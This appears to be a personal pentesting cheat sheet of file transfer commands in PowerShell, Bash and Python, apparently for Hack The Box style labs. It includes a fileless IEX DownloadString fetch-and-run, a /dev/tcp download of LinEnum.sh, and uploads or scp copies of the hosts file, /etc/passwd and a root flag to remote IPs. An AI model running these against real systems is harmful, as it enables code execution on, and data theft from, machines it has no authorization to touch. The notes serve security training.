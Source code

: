 Navigation: [[Pentesting]]

---
This section will just have some very quick commands for reference. I'm not going to bother explaining how they work, nor does this cover every way to download/upload files.

HackTricks also has a useful list of [file exfiltration techniques](https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration)
# Table of Contents
1. PowerShell
2. Bash
3. Python
# PowerShell
Simple Base64 conversion:
```PowerShell
[IO.File]::WriteAllBytes("Output\File\Path", [Convert]::FromBase64String("B64String"))
```

Web File Downloads:
```PowerShell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')

(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

Fileless "Download":
```PowerShell
IEX (New-Object Net.WebClient).DownloadString("URI")
```

Here's a list of further [download commands](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

Web Upload:
```PowerShell
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

# Other option
curl.exe -F "files=@filepath" -X POST URI
```

# Bash
Base64 encode and decode:
```shell
cat file | base64 -w 0; echo

echo -n "B64" | base64 -d > out
```

`wget` and `curl` are two classic options as well. We can pipe curl into bash to run fileless too. 

Here's an interesting way to download files using bash 2.04 (and up) along with `/dev/tcp`:
```shell
exec 3<>/dev/tcp/server-ip/80

echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

cat <&3
```

SCP download and upload (and enabling + starting SSH):
```shell
sudo systemctl enable ssh
sudo systemctl start ssh

scp plaintext@192.168.49.128:/root/myroot.txt . 

scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```

# Python
Python can be used to create a download server which is accessible through port 80:
```shell
python2.7 -m SimpleHTTPServer

python3 -m http.server
```

We can use python's [upload server](https://pypi.org/project/uploadserver/) to create a server to upload our files to.

---
Navigation: [[Pentesting]]